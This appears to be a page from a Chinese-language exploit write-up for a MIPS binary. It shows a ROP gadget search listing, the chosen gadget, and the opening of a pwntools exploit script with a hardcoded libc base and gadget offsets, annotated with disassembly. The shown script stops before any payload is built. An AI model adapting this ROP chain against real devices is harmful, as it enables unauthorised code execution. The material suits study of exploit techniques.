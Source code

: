 ```
  |  0x0012F4A8  |  move $t9,$a1                                        |  jr    $a1                             |
  |  0x0013032C  |  move $t9,$a1                                        |  jr    $a1                             |
  |  0x00130344  |  move $t9,$a1                                        |  jr    $a1                             |
  |  0x00132C58  |  move $t9,$a1                                        |  jr    $a1                             |
  |  0x00133888  |  move $t9,$a1                                        |  jr    $a1                             |
  |  0x0013733C  |  move $t9,$a1                                        |  jr    $a1                             |
  |  0x00137354  |  move $t9,$a1                                        |  jr    $a1                             |
  |  0x00137CDC  |  move $t9,$a1                                        |  jr    $a1                             |
  |  0x00137CF4  |  move $t9,$a1                                        |  jr    $a1                             |
  ----------------------------------------------------------------------------------------------------------------
  Found 11 matching gadgets
```
这里使用的是 
```
  .text:0012568C                 move    $t9, $a1
  .text:00125690                 move    $a3, $v0
  .text:00125694                 move    $a1, $a0
  .text:00125698                 jalr    $t9
```
最后的 exploit

```python
from pwn import *
# context.log_level = 'debug'
  
libc_base = 0x7f61f000
set_a0_addr = 0xE2660
#.text:000E2660                 move    $t9, $s2
#.text:000E2664                 jalr    $t9 ; sigprocmask
#.text:000E2668                 li      $a0, 1
set_s2_addr = 0xB2EE8
#.text:000B2EE8                 lw      $ra, 52($sp)
#.text:000B2EF0                 lw      $s6, 48($sp)
#.text:000B2EF4                 lw      $s5, 44($sp)
#.text:000B2EF8                 lw      $s4, 40($sp)
#.text:000B2EFC                 lw      $s3, 36($sp)
#.text:000B2F00                 lw      $s2, 32($sp)
#.text:000B2F04                 lw      $s1, 28($sp)
#.text:000B2F08                 lw      $s0, 24($sp)
#.text:000B2F0C                 jr      $ra
jr_t9_jr_ra = 0x949EC
# .text:000949EC                 move    $t9, $s3
# .text:000949F0                 jalr    $t9 ; uselocale
# .text:000949F4                 move    $s0, $v0
# .text:000949F8
# .text:000949F8 loc_949F8:                               # CODE XREF: strerror_l+15C↓j
# .text:000949F8                 lw      $ra, 0x34($sp)
# .text:000949FC                 move    $v0, $s0
# .text:00094A00                 lw      $s3, 0x24+var_sC($sp)
# .text:00094A04                 lw      $s2, 0x24+var_s8($sp)
# .text:00094A08                 lw      $s1, 0x24+var_s4($sp)
# .text:00094A0C                 lw      $s0, 0x24+var_s0($sp)
# .text:00094A10                 jr      $ra
addiu_a1_sp = 0x95B74
```